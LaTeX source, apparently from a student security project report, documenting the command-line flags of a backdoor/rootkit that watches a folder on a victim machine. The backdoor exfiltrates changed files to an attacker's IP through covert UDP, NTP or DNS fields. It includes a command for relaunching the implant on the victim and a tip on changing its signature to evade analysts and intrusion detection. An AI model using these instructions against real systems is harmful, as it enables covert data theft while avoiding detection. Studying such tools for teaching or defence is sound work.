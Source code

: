 \documentclass[titlepage]{article}
\begin{document}
The available command-line flags are: \\
-c : Use this option to activate Client mode. This should be used on the attacker's machine. \\
-s : Use this option to activate Server mode. This should be used on the victim machine. \\
-h : Use this option to see a short version of the program usage instructions. \\
-i [arg] : Use this option to specify the remote host that the machine will be communicating with. For the Client, this will be the server's IP. For the Server, this will be the Client's IP. \\
-w [arg] : Use this option to specify the folder to watch for exfiltration. Any files created or modified in this folder will be sent to the client. \\
-x [arg] : Use this option to specify the covert channel to use. 'u' for UDP source port, 'n' for NTP ref\_id, 'd' for DNS transaction id. \\

If you wish to change the watch folder, the easiest way to do this remotely is to use the ps utility to find your covert process on the victim machine and then execute 'kill [process id]; ./bkdoor -s -w [path] -i [ip] ... other options'.

\clearpage

\section{Testing Design}

The majority of the testing will be carried out from the server (victim) side as this is where the majority of the monitoring would be done.
The signature for our rootkit is currently ``0xAB" with the data encrypted in the next byte.  The signature can be changed by modifying a header at compile time, to make it harder for analysts and IDSes to detect.
\\
\end{document}
